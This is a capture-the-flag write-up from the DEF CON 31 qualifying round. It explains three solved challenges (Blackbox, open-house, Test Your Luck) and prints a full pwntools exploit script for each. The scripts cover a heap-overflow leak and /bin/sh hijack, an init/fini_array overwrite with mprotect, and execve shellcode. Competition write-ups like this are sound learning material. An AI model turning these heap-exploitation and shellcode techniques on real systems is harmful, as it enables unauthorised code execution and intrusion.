 ```yaml
---
title: "[DEF CON Qual-2023] Write-Up"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# Prologue

The teamwork carried me!

I participated DEF CON 31 qualification round last weekend as a member of P1G BuT S4D and we got 9th in this round. 

I write this article to document several challenges I worked on.

You can also find the official challenge source code/ solution here: https://github.com/nautilus-institute/quals-2023

# Blackbox

Analysis:
We need to reverse the challenge by interacting with it. 

The structure of the payload is 
```p16(len(code)//2)+code```
- The first 2 bytes represent the size of the instructions
- Each instruction's length is 2

Solution:
- Find the institutions to 
  - set the registers
  - syscall open
  - syscall read

We spent about 6 hours on open cuz it always gives the error message "failed to open xxx". Even we pass "." as the parameter.

But in the end, my teammates reminded me that it could be fopen. This message helped us solve it in the last 10 mins.

Exploit:

```python
from pwn import *
context.log_level='debug'
p = remote("blackbox-bamkcvy55ihl4.shellweplayaga.me",33773)
p.sendlineafter("Ticket please: ","ticket...")
def pack(c):
    return p16(len(c)//2)+c
def one(c,cc=0):
    p.send(pack(c))
    if cc==0:
        p.sendlineafter(")\n","y")
def XxX(filename):
    res=b''
    targets = [ord(x) for x in filename]
    cur = 0
    for target in targets:
        res+=p16(0x0080+target)+p16(0xd000)+p16(0x1080+target)
    return res+p16(0xd000)
one(XxX("flag\0r\0AAAAAA")+p16(0x0280+2)+p16(0x0380+2)+p16(0x0080+4)+p16(0xf000)+p16(0x0081)+p16(0x0280+0)+p16(0x0380+0x7f)+p16(0xf000)+p16(0x1080+1)+p16(0x1180+111)+p16(0xf000))
p.interactive()
```

# open-house

It's a simple x32 heap overflow. I solved it locally but for the remote one, we need to leak the libc. My teammates finally used dynelf to leak. I attached my local solution for the challenge.

```
from pwn import *
# 
context.arch='i386'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# p=process('./open-house')
# context.log_level='debug'

ru      = lambda a:     p.readuntil(a)
r       = lambda n:     p.read(n)
sla     = lambda a,b:   p.sendlineafter(a,b)
sa      = lambda a,b:   p.sendafter(a,b)
sl      = lambda a:     p.sendline(a)
s       = lambda a:     p.send(a)
p= remote("open-house-6dvpeatmylgze.shellweplayaga.me",10001)
sla(": ","ticket{StreetDeed544n23:gaVixliBvaQ2kmfgEJGTGexWuFwQx4S2R3stRpvhf9WN-T5d}")

def menu(c):
    ru('> ')
    sl(c)
def add(c):
    menu('c')
    ru('review!')
    sl(c)
def dele(idx):
    menu('d')
    ru('delete?')
    sl(str(idx))
def edit(idx,c):
    menu('m')
    ru('replace?')
    sl(str(idx))
    ru('with?')
    sl(c)
def show():
    menu('v')
from z3 import *
def XxX(leaked):
    leaked = BitVecVal(leaked, 32)
    res  = BitVec('res', 32)
    s = Solver()
    s.add((res>>12)^res==leaked)
    s.add(res>>24<=0x57)
    s.add(res>>24>=0x55)
    if str(s.check()) == 'sat':
        m = s.model()
        return  m.evaluate(res).as_long()
    else:
        print(s.check())
        exit(1)
payload = b'a'*0x1fe
for x in range(13):
    add("a"*0x1f9)


for x in range(10):
    dele(1)
for x in range(8):
    add("")

show()


for _ in range(19):
    ru(b"****")
ru("\n")
heap = u32(p.read(3).rjust(4,b'\0'))
heap = XxX(heap)&0xfffff000
warning(hex(heap))
ru(b"****")
ru(b"****")

ru("\n")
p.read(3)
base = u32(p.read(4))-(0xf7f1ea38-0xf7cf8000)
warning(hex(base))


for x in range(24):
    dele(1)
add(b"\1"*0x220)
add(b"\2"*0x220)
add(b"\3"*0x220)

show()

edit(2,b"\1"*0x200+flat([0x573d04b4-0x573cd000+heap,0]))
show()
for _ in range(3):
    ru(b"**** - ")
pie= u32(p.read(4))-0x3164
warning(hex(pie))
# gdb.attach(p)
context.log_level='debug'

edit(1,b'/bin/sh\0'.ljust(0x200,b'\0')+flat([0x3124+pie-8,pie+0x4000-0x300]))

edit(2,b'/bin/sh\0'+flat([0x47cb0+base,0x70ca0+base]))

dele(1)

p.interactive()
```

# Test Your Luck

This challenge is interesting. I like Test Your Luck most!!!
We 
1. Modify the seed on bss to make sure we can guess the number
2. Modify init_array to mprotect bss to make it executable + Modify fini_array to reuse the vulnerability
3. Return to BSS

```python
from pwn import *
context.log_level='debug'
context.arch='amd64'

HOST = os.environ.get('HOST', 'localhost')
PORT = 31337
p=  remote(HOST, int(PORT))
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)


base = u64(p.read(8))
warning(hex(base))
xxx = 0x3000-0x400
sh=asm(shellcraft.execve("./submitter",0,0))
sh+=b"\x90"*((-len(sh))%8)
pay = b''
for _ in range(int(len(sh)//8)):
    pay+= p64(base+xxx+_*8)+sh[_*8:_*8+8]

p.send(p64(base+0x45B4)+p64(0)+\
       p64(base+0x4338)+p64(0x1200+base)+\
       p64(base+0x4330)+p64(0x1370+base)+\
       p64(0))
p.send(p32(0))
p.read(8)
p.send(pay+p64(base+0x45B4)+p64(0)+\
       p64(base+0x4330)+p64(xxx+base)+\
       p64(base+0x4330-8)+p64(xxx+base)+\
       p64(0))
flag = p.recvline_contains(b'LiveCTF{').decode().strip()
log.info('Flag: %s', flag)

p.interactive()
```  

# Other Challenges
I also contributed to other challenges. Although I didn't achieve the final exploit script. I'll reproduce some of them and attach them below.


- ptrace-me-maybe
- Three-Guard
- Don't bLinkl

# Epilogue

This year's qual is much more enjoyable for me. I am not saying it's easy but it's definitely educational cuz I know something I can't learn on tuff heap stuff and crazy ROP.  Thank NI so much for writing these interesting elegant challenges and I am looking forward to meeting everyone in Las Vegas!

